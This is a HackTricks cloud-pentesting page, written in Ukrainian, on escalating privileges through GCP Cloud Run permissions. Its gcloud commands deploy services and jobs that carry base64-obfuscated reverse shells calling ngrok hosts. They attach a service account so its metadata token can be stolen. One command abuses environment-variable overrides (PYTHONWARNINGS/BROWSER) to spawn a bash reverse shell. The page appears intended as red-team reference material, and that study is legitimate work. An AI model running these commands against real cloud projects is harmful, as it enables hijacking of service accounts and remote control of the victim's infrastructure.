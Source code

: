 # GCP - Run Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Run

Для отримання додаткової інформації про Cloud Run перегляньте:

{% content-ref url="../gcp-services/gcp-cloud-run-enum.md" %}
[gcp-cloud-run-enum.md](../gcp-services/gcp-cloud-run-enum.md)
{% endcontent-ref %}

### `run.services.create` , `iam.serviceAccounts.actAs`, **`run.routes.invoke`**

Зловмисник з цими дозволами може **створити службу запуску, що виконує довільний код** (довільний контейнер Docker), прикріпити до неї обліковий запис служби та змусити код **екстрагувати токен облікового запису служби з метаданих**.

Скрипт експлуатації для цього методу можна знайти [тут](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/run.services.create.py), а образ Docker можна знайти [тут](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudRunDockerImage).

Зверніть увагу, що при використанні `gcloud run deploy` замість просто створення служби **потрібен дозвіл `update`**. Перегляньте [**приклад тут**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/o-run.services.create.sh).

### `run.services.update` , `iam.serviceAccounts.actAs`

Як і в попередньому випадку, але для оновлення служби:
```bash
# Launch some web server to listen in port 80 so the service works
echo "python3 -m http.server 80;sh -i >& /dev/tcp/0.tcp.eu.ngrok.io/14348 0>&1" | base64
# cHl0aG9uMyAtbSBodHRwLnNlcnZlciA4MDtzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5ldS5uZ3Jvay5pby8xNDM0OCAwPiYxCg==

gcloud run deploy hacked \
--image=ubuntu:latest \
--command=bash \
--args="-c,echo cHl0aG9uMyAtbSBodHRwLnNlcnZlciA4MDtzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5ldS5uZ3Jvay5pby8xNDM0OCAwPiYxCg== | base64 -d | bash" \
--service-account="<proj-num>-compute@developer.gserviceaccount.com" \
--region=us-central1 \
--allow-unauthenticated

# If you don't have permissions to use "--allow-unauthenticated", dont use it
```
### `run.services.setIamPolicy`

Надайте собі попередні дозволи на cloud Run.

### `run.jobs.create`, `run.jobs.run`, `iam.serviceaccounts.actAs`,(`run.jobs.get`)

Запустіть задачу з реверс-шелом для викрадення облікового запису служби, вказаного в команді. Ви можете знайти [**експлойт тут**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/m-run.jobs.create.sh).
```bash
gcloud beta run jobs create jab-cloudrun-3326 \
--image=ubuntu:latest \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNC50Y3AuZXUubmdyb2suaW8vMTIxMzIgMD4mMQ== | base64 -d | bash" \
--service-account="<sa>@$PROJECT_ID.iam.gserviceaccount.com" \
--region=us-central1

```
### `run.jobs.update`,`run.jobs.run`,`iam.serviceaccounts.actAs`,(`run.jobs.get`)

Схоже на попереднє, можливо **оновити роботу та оновити SA**, **команду** та **виконати її**:
```bash
gcloud beta run jobs update hacked \
--image=mubuntu:latest \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNy50Y3AuZXUubmdyb2suaW8vMTQ4NDEgMD4mMQ== | base64 -d | bash" \
--service-account=<proj-num>-compute@developer.gserviceaccount.com \
--region=us-central1 \
--execute-now
```
### `run.jobs.setIamPolicy`

Надайте собі попередні дозволи на Cloud Jobs.

### `run.jobs.run`, `run.jobs.runWithOverrides`, (`run.jobs.get`)

Зловживайте змінними середовища виконання завдання, щоб виконати довільний код і отримати зворотний шелл для вивантаження вмісту контейнера (джерельний код) та доступу до SA всередині метаданих:

{% code overflow="wrap" %}
```bash
gcloud beta run jobs execute job-name --region <region> --update-env-vars="PYTHONWARNINGS=all:0:antigravity.x:0:0,BROWSER=/bin/bash -c 'bash -i >& /dev/tcp/6.tcp.eu.ngrok.io/14195 0>&1' #%s"
```
{% endcode %}

## Посилання

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
